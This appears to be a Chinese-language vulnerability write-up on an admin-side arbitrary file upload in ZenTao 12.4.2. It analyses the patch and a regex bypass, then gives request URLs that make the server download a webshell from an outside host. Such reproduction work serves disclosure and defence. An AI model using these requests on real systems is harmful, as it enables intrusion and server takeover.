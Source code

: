 # 禅道 12.4.2 后台任意文件上传漏洞 CNVD-C-2020-121325

## 漏洞描述

百度云安全团队监测到禅道官方发布了文件上传漏洞的风险通告，该漏洞编号为CNVD-C-2020-121325，漏洞影响禅道<=12.4.2版本。登陆管理后台的恶意攻击者可以通过fopen/fread/fwrite方法读取或上传任意文件，成功利用此漏洞可以读取目标系统敏感文件或获得系统管理权限。我们对漏洞进行了复现和分析，由于需要登录后台才可以利用，实际风险相对较低，建议受影响的禅道用户尽快升级到最新版。

## 影响版本

<a-checkbox checked>禅道 <= 12.4.2版本</a-checkbox></br>

## 环境搭建

![img](../../../.vuepress/public/img/zentao-1-20220313232509623.png)



调用接口查询版本信息



```plain
  http://xxx.xxx.xxx.xxx/www/index.php?mode=getconfig
```



![img](../../../.vuepress/public/img/zentao-14.png)



## 漏洞复现

- ✅漏洞触发需要后台权限



根据漏洞描述查看修改后的代码片段



![img](../../../.vuepress/public/img/zentao-2.png)



`修改前`



```php
public function downloadZipPackage($version, $link)
{
    $decodeLink = helper::safe64Decode($link);
    if(preg_match('/^https?\:\/\//', $decodeLink)) return false;

    return parent::downloadZipPackage($version, $link);
}
```



`修改后`



```php
public function downloadZipPackage($version, $link)
{
    $decodeLink = helper::safe64Decode($link);
    if(!preg_match('/^https?\:\/\//', $decodeLink)) return false;

    $file      = basename($link);
    $extension = substr($file, strrpos($file, '.') + 1);
    if(strpos(",{$this->config->file->allowed},", ",{$extension},") === false) return false;

    return parent::downloadZipPackage($version, $link);
}
```



这里传入的参数为版本和link地址，然后base64解码，正则判断是否为`http`或`https`协议，这里的正则过滤并不完整，所以可以绕过用于下载恶意文件



![img](../../../.vuepress/public/img/zentao-4.png)



可以大写`http`或请求`FTP`来绕过正则



![img](../../../.vuepress/public/img/zentao-6.png)



![img](../../../.vuepress/public/img/zentao-5.png)



跟进一下`parent::downloadZipPackage`这个方法，跟着来到`zentao\module\client\model.php`文件中



![img](../../../.vuepress/public/img/zentao-3.png)



```php
public function downloadZipPackage($version, $link)
    {
        ignore_user_abort(true);
        set_time_limit(0);
        if(empty($version) || empty($link)) return false;
        $dir  = "data/client/" . $version . '/';
        $link = helper::safe64Decode($link);
        $file = basename($link);
        if(!is_dir($this->app->wwwRoot . $dir))
        {
            mkdir($this->app->wwwRoot . $dir, 0755, true);
        }
        if(!is_dir($this->app->wwwRoot . $dir)) return false;
        if(file_exists($this->app->wwwRoot . $dir . $file))
        {
            return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
        }
        ob_clean();
        ob_end_flush();

        $local  = fopen($this->app->wwwRoot . $dir . $file, 'w');
        $remote = fopen($link, 'rb');
        if($remote === false) return false;
        while(!feof($remote))
        {
            $buffer = fread($remote, 4096);
            fwrite($local, $buffer);
        }
        fclose($local);
        fclose($remote);
        return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
    }
```



可以简单看到这里获取link传入的文件名，通过`fopen`打开该文件，写入禅道目录`www/data/client/version`中



查看一下有没有调用这个方法的地方



![img](../../../.vuepress/public/img/zentao-7.png)



找到了`download`方法调用了这个漏洞点，所以我们有两种下载恶意文件的方法



```plain
http://xxx.xxx.xxx.xxx/www/client-download-[$version参数]-[base64加密后的恶意文件地址].html
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=[$version参数]&link=[base64加密后的恶意文件地址]
```



首先先上传一个恶意文件，可以是FTP也可以是HTTP



例如我上传的文件URL为[`http://peiqi.tech/SHELL.php`](http://peiqi.tech/SHELL.php)



```plain
http://peiqi.tech/SHELL.php
|
base64加密  HTTP://peiqi.tech/SHELL.php
|
SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```



请求地址则为



```plain
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=1&link=SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```



![img](../../../.vuepress/public/img/zentao-8.png)



下载的目录地址为`zentaopms\www\data\client\1`


 

目录为version名称



![img](../../../.vuepress/public/img/zentao-9.png)



成功上传webshell



![img](../../../.vuepress/public/img/zentao-10.png)



## 